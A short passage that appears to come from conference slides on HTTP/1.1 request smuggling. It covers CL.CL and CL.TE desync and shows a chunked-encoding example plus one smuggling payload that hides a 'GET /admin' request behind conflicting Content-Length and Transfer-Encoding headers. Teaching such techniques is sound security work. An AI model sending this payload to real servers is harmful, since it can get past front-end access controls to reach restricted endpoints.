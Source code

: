 
# HTTP/1.1 CL.CL

While the backend sees last `Content-Length` header.

![](images/clcl_last.png)

---

# HTTP/1.1 CL.TE

`Transfer-Encoding: chunk`

```yaml
POST /index.php HTTP/1.1
Host: myapp.com
Transfer-Encoding: chunked

5\r\n
Hello\r\n
8\r\n
NorthSec\r\n
B\r\n
Conference!\r\n
0\r\n
\r\n
```

---

# HTTP/1.1 CL.TE

```
POST / HTTP/1.1
Host: localhost
Content-Length: 45
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost

```
